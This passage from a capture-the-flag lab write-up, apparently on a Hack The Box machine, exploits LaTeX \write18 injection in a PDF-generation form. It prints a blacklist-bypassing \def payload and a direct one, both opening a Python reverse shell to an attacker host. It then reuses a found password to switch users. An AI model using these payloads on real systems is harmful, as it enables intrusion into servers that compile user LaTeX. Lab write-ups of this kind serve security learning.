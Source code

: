 After a bit of resarch, some very useful information was found regarding [Hacking with LaTex](https://0day.work/hacking-with-latex/). After a bit of experimenting with this discovered information, it was determined that the following text (almost entirely reused from "Hacking with LaTex") can be passed to the target system via the input field on the PDF creator web page to obtain a reverse shell on the system. This is possible since `\write18` is enabled (as visible in the response above.) 

```
\def \imm {\string\imme}
\def \diate {diate}
\def \eighteen {\string18}
\def \wwrite {\string\write\eighteen}
\def \args {\string{python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.14",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'\string}}
% First run
\newwrite\outfile
\openout\outfile=cmd.tex
\write\outfile{\imm\diate\wwrite\args}
\closeout\outfile
% Second run
\newread\file
\openin\file=cmd.tex
\read\file to\fileline 
\fileline
\closein\file
Run1
```

The `\def` commands are a way around blacklisted words. Ultimately, the `\def` commands are used to create variables that when combined form blacklisted words/commands.

For this to work, the PDF creation process needs to run twice. The first time, the `cmd.tex` file will be written to the system which contains the Python reverse shell exploit code. The second time the process is run, `cmd.tex` is read and the commands within are executed.

*Note that this method is rather finicky (and unnecessary). Looking at other writeups for this machine suggests that the blacklist-bypassing "\def" commands are not needed and that a more straight forward shell can be obtained using the command shown below.*

```
\immediate\write18{python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.14",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'}
```

Ater a shell connection is established and [upgraded](https://mnorris.io/hackthebox/Curling/#shell_upgrade), `su` can be used to switch users from `www-data` to `ayash` who has reused the previously-discovered `jiujitsu` password.

```
www-data@chaos:/$ su --login ayush
```

The `ayush` user's default shell is `rbash`, which is a restricted shell. This means that very few commands can be run from within the shell. The text below shows an example of the `cd` command failing and that the user's shell is `rbash`.
